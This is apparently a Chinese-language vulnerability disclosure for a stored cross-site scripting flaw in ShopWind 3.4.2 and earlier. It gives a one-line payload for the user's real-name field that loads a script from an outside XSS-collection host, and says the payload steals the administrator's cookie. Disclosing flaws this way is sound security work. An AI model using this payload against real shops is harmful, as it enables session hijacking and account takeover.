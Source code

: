 # ShopWind存在XSS漏洞

影响版本：shopwind <= 3.4.2

供应商主页：https://www.shopwind.net/

软件链接：https://www.shopwind.net/product/download.html

## 0x01 注册用户账户

第一步，在注册页面，注册一个用户账户，例如:

注册用户后，它会跳转到用户后台

```text
http://localhost/register.html
```

![image](https://user-images.githubusercontent.com/54017627/168498389-994955dd-aba0-434e-a119-083063e7d778.png)

![image](https://user-images.githubusercontent.com/54017627/168498386-8c605a1c-bed5-452c-99f1-be6b5f097bb7.png)

然后点击设置，进入用户的个人属性设置页面
![image](https://user-images.githubusercontent.com/54017627/168498380-47a888ba-6054-4061-be87-744067646ba4.png)


## 0x02 构造POC

由于用户的输入未被过滤，因此我可以随意修改属性。在这里，我选择修改真实姓名，将其插入XSS平台的POC,然后单击提交

```sql
ceshi<sCRiPt sRC=//xss.pt/t0le?x></sCrIpT>
```

![image](https://user-images.githubusercontent.com/54017627/168498357-9f5be779-26c8-4dfb-a9a7-aa8cde0f729e.png)

![image](https://user-images.githubusercontent.com/54017627/168498365-d06a9a67-61c2-49b7-adad-f0f421d8944f.png)

![image](https://user-images.githubusercontent.com/54017627/168498367-5e9fcce8-e53e-4130-9b8c-398584479904.png)

可以获取管理员 Cookie

![image](https://user-images.githubusercontent.com/54017627/168498346-172f9c3d-76be-4b69-bdd6-2a950b8b74d0.png)
